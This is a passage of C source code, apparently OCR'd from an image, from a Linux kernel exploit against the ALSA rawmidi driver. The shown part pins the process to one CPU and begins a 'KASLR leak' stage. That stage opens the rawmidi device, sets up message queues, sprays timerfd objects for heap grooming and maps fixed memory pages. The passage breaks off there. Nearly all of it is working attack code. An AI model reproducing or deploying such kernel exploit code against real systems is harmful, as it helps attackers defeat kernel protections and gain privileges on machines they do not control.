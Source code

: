 ```c

    CPU_ZERO(&mask);
    CPU_SET(cpu_id, &mask);

    if (sched_setaffinity(0, sizeof(mask), &mask) == -1)
    {
        err("`sched_setaffinity()` failed: %s", strerror(errno));
    }

    return;
}

void main(void)
{
    pin_cpu(0);

    struct snd_rawmidi_params srp;

    save_state();

    /* ===================== [ SETP 1 - KASLR Leak ] ===================== */

    puts("[+] STEP 1 : KASLR leak");
    fd1 = open(DRIVER_RAWMIDI, O_RDWR);

    if (fd1 < 0)
    {
        perror("[-] open");
        exit(0);
    }

    puts("[+] Opening rawmidi");

    int qid[2];
    if ((qid[0] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
    {
        perror("msgget");
        exit(1);
    }

    struct itimerspec its;

    its.it_interval.tv_sec = 0;
    its.it_interval.tv_nsec = 0;
    its.it_value.tv_sec = 9999;
    its.it_value.tv_nsec = 0;

    int tfd[256];

    for(int i = 0; i < 256 / 2; i++)
    {
        tfd[i] = timerfd_create(CLOCK_REALTIME, 0);
        timerfd_settime(tfd[i], 0, &its, 0);
    }

    if ((page = mmap((void *)0x1336000, PAGE_SIZE * 2, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, -1, 0)) == MAP_FAILED)
    {
        perror("[-] mmap()");
        exit(0);
    }

    puts("[+] Mapping two pages");
```